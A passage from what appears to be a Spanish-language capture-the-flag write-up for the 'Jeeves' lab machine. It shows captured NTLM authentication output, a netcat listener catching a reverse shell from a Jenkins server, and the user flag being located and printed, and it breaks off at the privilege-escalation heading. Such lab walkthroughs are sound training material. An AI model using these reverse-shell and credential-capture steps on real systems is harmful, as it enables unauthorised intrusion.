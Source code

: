 ```bash
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
```

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.63 49679
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>
```

## User.txt

- Si nos vamos ala **raiz** `C:\` vemos que hay está la `user.txt`.

```bash
dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Desktop

11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)   2,408,325,120 bytes free

C:\>
```

```bash
type user.txt
e3232272596fb47950d59c4cf1e7066a
C:\Users\kohsuke\Desktop>
```

## Escalada de Privilegios

- Si vamos un directorio hacia atrás vemos lo siguiente.
